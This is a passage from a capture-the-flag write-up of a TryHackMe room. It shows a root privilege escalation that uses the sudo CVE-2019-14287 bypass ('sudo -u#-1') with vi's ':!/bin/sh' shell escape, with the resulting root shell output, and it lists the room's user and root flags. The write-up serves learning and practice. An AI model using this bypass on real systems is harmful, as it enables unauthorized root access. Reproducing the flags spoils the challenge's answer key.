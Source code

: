 - I found exploit on GTFOBins, used it and unfortunately it didn't work. If you try `sudo /usr/bin/vi /root/root.txt` or exploit from GTFOBins, you'll just get denied. When it comes to sudo, I used one exploit few days ago that will bypass that restriction.
  You can find the exploit [here](https://www.exploit-db.com/exploits/47502). So with this exploitation, instead of using `sudo` we are gonna use `sudo -u#-1` on the command and file that we found with `sudo -l`.
  The thing is, it doesn't matter on which file we use it as long as we have permission to write to that file, you can create an empty new file and use the command on it, the important part is to type `:!/bin/sh` in the file followed by `Enter` button and that's it, you'll have a root after that.

  ```
  sudo -u#-1 /usr/bin/vi /home/gwendoline/user.txt

  :!/bin/sh
  
  # whoami
  root
  # id
  uid=0(root) gid=0(root) groups=0(root)
  # cat /root/root.txt
  THM{8d6f163a87a1c80de27a4fd61aef0f3a0ecf9161}
  ```

- You can find more details about this vulnerability [here](https://www.mend.io/blog/new-vulnerability-in-sudo-cve-2019-14287/). You can use that command with various other different commands in order to escalate privileges since it is a `sudo` vulnerability, it's not strictly related to `vim`.

- I had so much fun with this challenge — loved it! Thank you, MuirlandOracle! 👑


---

## 🏁 Flags

- **User Flag**: `THM{1107174691af9ff3681d2b5bdb5740b1589bae53}`
- **Root Flag**: `THM{8d6f163a87a1c80de27a4fd61aef0f3a0ecf9161}`

---

## 💬 Notes & Reflections

- What was challenging in this room for me?
  `Nothing much, just sharpening my skillzzzz.`

- What did I learn?
  `Nothing new, maybe escalating with VIM but that wasn't really new to me.`

- I would recommend this room or any type of CTF challenge to every Cyber Security enthusiast since it will sharpen your skills better than any book/tutorial/course or walkthrough rooms on many different platforms!

- Thank you for reading! Enjoy, Have Fun and Happy Hacking! 🤟

---
